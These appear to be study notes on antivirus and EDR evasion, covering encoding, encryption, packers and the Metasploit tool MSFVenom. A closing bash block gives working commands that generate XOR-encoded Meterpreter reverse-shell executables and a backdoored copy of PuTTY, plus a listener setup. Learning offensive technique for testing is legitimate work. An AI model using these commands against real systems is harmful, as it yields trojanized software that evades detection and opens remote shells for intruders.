 #### Encoding:
Process of changing data into a specific format
Used for program compiling, data storage and transmission, and file conversion

#### Encryption:
Focuses on data security and prevents unauthorized access
Converts plaintext into ciphertext using an algorithm and key
Purpose of encoding and encryption:
AV evasion by hiding shellcode from detection
Can be used to hide functions, variables, etc.

### Packers
Packers compress programs to reduce their size and protect them from reverse engineering.
Common packers include UPX, MPRESS, and Themida.
Packing an application involves transforming its code and adding an unpacker stub.
Packers can help bypass antivirus (AV) solutions by making the executable look different and avoiding known signatures.
AV solutions may still detect packed executables based on the unpacker stub or during in-memory scanning.
The text provides a C# shellcode example and instructions for using a packer (ConfuserEx) to protect it.

### MSFVenom
MSFVenom is a part of the Metasploit toolkit. This tool is used to generate malicious payloads, shellcode, scripts, ect..
By default the payloads should get caught. They are well signatured with obvious heuristics. But that doesnt mean it wont be able to bypass Antivirus or EDR.

In many cases the shellcode MSFVenom generates is the base of a lot of hand made malware. 
Advanced attackers will use this to generate the shellcode and write their own stager or stageless payloads, which will not be covered.

What will be covered below is how to properly generate and use MSFVenom and use quick and easy tools to manipulate your output in an effort to bypass AV or EDR.

<p>You can use HackTools for this as it has a MSFVenom builder, but the basic flags, usage, and generation will be covered.</p>

### Using MSFVenom to bypass AV using a backdoored binary
```bash
# test executable
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.41 LPORT=445 -f exe -o test.exe

msf6 > 
    use exploit/multihandler
    set payload windows/x64/meterpreter/reverse_tcp
    set LHOST=192.168.1.41
    set LPORT=445 

# generate payload using encryption
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.41 LPORT=445 -f exe -o test2.exe -e x64/xor_dynamic -i 10

# generate payload using encryption and a backdoored version of putty
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.41 LPORT=445 -f exe -o test2.exe -e x64/xor_dynamic -i 10 -x putty.exe -k EXITFUNC=thread
```
